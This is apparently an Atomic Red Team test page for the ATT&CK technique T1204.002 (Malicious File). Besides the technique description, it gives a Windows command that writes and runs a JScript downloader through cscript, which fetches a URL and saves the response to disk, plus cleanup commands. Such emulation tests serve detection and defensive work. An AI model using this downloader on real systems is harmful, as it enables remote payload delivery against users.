 # T1204.002 - Malicious File
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1204/002)

<blockquote>An adversary may rely upon a user opening a malicious file in order to gain execution. Users may be subjected to social engineering to get them to open a file that will lead to code execution. This user action will typically be observed as follow-on behavior from [Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001). Adversaries may use several types of files that require a user to execute them, including .doc, .pdf, .xls, .rtf, .scr, .exe, .lnk, .pif, and .cpl.

Adversaries may employ various forms of [Masquerading](https://attack.mitre.org/techniques/T1036) on the file to increase the likelihood that a user will open it.

While [Malicious File](https://attack.mitre.org/techniques/T1204/002) frequently occurs shortly after Initial Access it may occur at other phases of an intrusion, such as when an adversary places a file in a shared directory or on a user's desktop hoping that a user will click on it. This activity may also be seen shortly after [Internal Spearphishing](https://attack.mitre.org/techniques/T1534).</blockquote>

## Atomic Tests

- [Atomic Test #1 - OSTap Payload Download](#atomic-test-1---ostap-payload-download)


<br/>


## Atomic Test #1 - OSTap Payload Download
Uses cscript //E:jscript to download a file

**Supported Platforms:** Windows




#### Inputs:
| Name        | Description                       | Type | Default Value             |
| ----------- | --------------------------------- | ---- | ------------------------- |
| script_file | File to execute jscript code from | Path | %TEMP%&#92;OSTapGet.js    |
| file_url    | URL to retrieve file from         | Url  | https://attack.mitre.org/ |


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo var url = "#{file_url}", fso = WScript.CreateObject('Scripting.FileSystemObject'), request, stream; request = WScript.CreateObject('MSXML2.ServerXMLHTTP'); request.open('GET', url, false); request.send(); if (request.status === 200) {stream = WScript.CreateObject('ADODB.Stream'); stream.Open(); stream.Type = 1; stream.Write(request.responseBody); stream.Position = 0; stream.SaveToFile('/T1204.002', 1); stream.Close();} else {WScript.Quit(1);}WScript.Quit(0); > #{script_file}
cscript //E:Jscript #{script_file}
```

#### Cleanup Commands:
```cmd
del #{script_file} /F /Q >nul 2>&1
del T1204.002 /F /Q >nul 2>&1
```






<br/>
